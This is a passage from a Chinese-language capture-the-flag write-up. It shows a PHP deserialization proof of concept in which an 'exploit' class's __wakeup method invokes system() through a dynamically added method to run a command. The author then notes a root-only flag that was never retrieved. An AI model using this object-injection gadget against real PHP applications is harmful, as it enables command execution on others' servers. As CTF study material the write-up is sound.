 ```php
            return call_user_func_array($callback, $args);
        } else {
            throw new \BadMethodCallException("Method '" . __CLASS__ . 
            "::" . $method . "' not found");
        }
    }
    ...
    /**
     * Prevent PHP from trying to serialize cached object instances
     */
    /* 註解掉 __sleep，否則 unserialize 的時候會不正常
    public function __sleep()
    {
        return array();
    }*/
    ...
}
class exploit
{
    public $obj, $command;
    function __construct()
    {
        $this->obj = new App();
        $this->obj->addMethod('cast', 'system');
        $this->command = 'ls';
    }
    function __wakeup()
    {
        $this->obj->cast($this->command);
    }
}
$exp = new exploit();
$serialized = serialize($exp);
unserialize($serialized);
```
(完整的腳本內容放在 ```exploit.php```)\
跑起來就會成功 ls
![](assets/6-5.png)
不過想要使用這方式的前提是，要有類似的東西可以利用，並且要能插入 command 到參數裡\
嘗試找了其他 magic method 看能不能利用，但是找了很久還是找不到類似的東西可以用

另外，查看根目錄中 flag 檔案的權限，會發現只有 root 能讀\
所以應該也不能 cat flag 之類的，必須要執行 readflag 才能讀到它的內容\
![](assets/6-7.png)
這題只解到這邊而已

